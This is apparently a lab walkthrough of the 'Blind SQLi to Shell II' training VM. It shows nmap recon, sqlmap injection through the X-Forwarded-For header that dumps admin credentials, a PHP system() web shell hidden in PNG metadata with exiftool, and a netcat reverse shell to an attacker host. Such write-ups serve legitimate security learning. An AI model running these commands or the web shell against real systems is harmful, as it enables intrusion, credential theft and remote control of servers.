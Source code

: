 # Blind SQLi to Shell II
## _Walkthrough_

The first thing to do is to deploy the iso, I used VMWare, and get the ip (using the command __ifconfig__).



![image](https://user-images.githubusercontent.com/38219437/138444044-8bb3effe-29b2-486c-bc0d-4dc96f89407a.png)


## Recon

### Tecnologies used:

```
nmap -sC -sV 192.168.77.128 -p-

-sV check services and versions
-sC script scan
```
  **Output:**
```
80/tcp open  http    nginx 0.7.67
|_http-server-header: nginx/0.7.67
|_http-title: My Photoblog - latest picture

```
```
HTTP/1.1 200 OK
Server: nginx/0.7.67
Date: Thu, 21 Oct 2021 13:40:51 GMT
Content-Type: text/html
Connection: close
X-Powered-By: PHP/5.3.3-7+squeeze15
Content-Length: 1347
```
### Technologies Used


##### NGINX 0.7.67
##### PHP/5.3.3-7+squeeze15


## Attack method

### Blind SQLi

I use this website to learn more about the differents usages of **sqlmap**:
https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap

**SQLMap arguments I tried:**
```
$ sqlmap -u "http://192.168.77.128/cat.php?id=*" -p id

$ sqlmap -u "http://192.168.77.128/" --headers "referer:*"

$ sqlmap -u "http://192.168.77.128/" --headers "x-forwarded-for:*"
```

**SQLMAP to find the number of databases and it's names**

```
$ sqlmap -u http://192.168.77.128/ --headers "x-forwarded-for: *" --dbs --dump-all

[*] information_schema
[*] photoblog

$ sqlmap -u http://192.168.77.128/ --headers "x-forwarded-for: *" --tables -D photoblog


Database: photoblog

1. Tables: 4
2. Names: categories, pictures, stats, users

Table: users


$ sqlmap -u http://192.168.77.128/ --headers "x-forwarded-for: *" -D photoblog -T users --dump

Database: photoblog
Table: users
[1 entry]
+----+-------+---------------------------------------------+
| id | login | password                                    |
+----+-------+---------------------------------------------+
| 1  | admin | 8efe310f9ab3efeae8d410a8e0166eb2 (P4ssw0rd) |
+----+-------+---------------------------------------------+
```
**Now that we have the username and the password, we can log in as admin.**

![image](https://user-images.githubusercontent.com/38219437/138444198-b7ffc49e-1a2a-4bee-a545-b7538b5352ec.png)

**After some recon we are able to note only one point to explore, and gain a reverse shell: upload images feature.**



![image](https://user-images.githubusercontent.com/38219437/138444141-db3947ae-5757-4e5c-bfbb-19f0aeca7db2.png)

### Upload png file with php backdoor

**Things I try without success:**
1. Just uploading .php file instead of jpg file
2. Tried Case sensitives — pic.PhP also tried pic.php5, pHP5.
3. Bypass uploads rules by intercepting the request and change the content-type to __image/jpeg__ 
(https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)

4. Trying double extensions to bypass and upload php file image.jpg.php or image.php.jpg

## Final method

**First we create a php file with a backdoor inside it:**

```
<?php

if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
``` 

Explanation of the code:

1. First the code checks if there's a cmd parameter in the url;
2. If so, it creates a pre tag on the page to generate retrieve the information withou breaking it, keeping the breaks and the spaces.
3. Assigns the content of the parameter **cmd** to the variable **cmd**
4. System() is for executing a system command on the server and immediately displaying the output.
5. Kill the script


**Using exiftool we are going to add a comment with our payload o the image**

```
exiftool "-comment<=file.php" backdoor.png
```

We are now ready to upload our backdoor and generate a reverse shell.


## Now you can upload the file. After the upload you can trigger the backdoor using:

```
(...).png/cmd.php?cmd=ls
```

__We need to add cmd.php, otherwise the photo is displayed instead of the code we want__

To create a reverse shell we use the following code instead of __ls__:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-traditional

Attackers machine:
```
nc -lvp 1234
```

Command cmd=
```
nc -e /bin/sh <attacker_ip> <nc_listener_port>
```
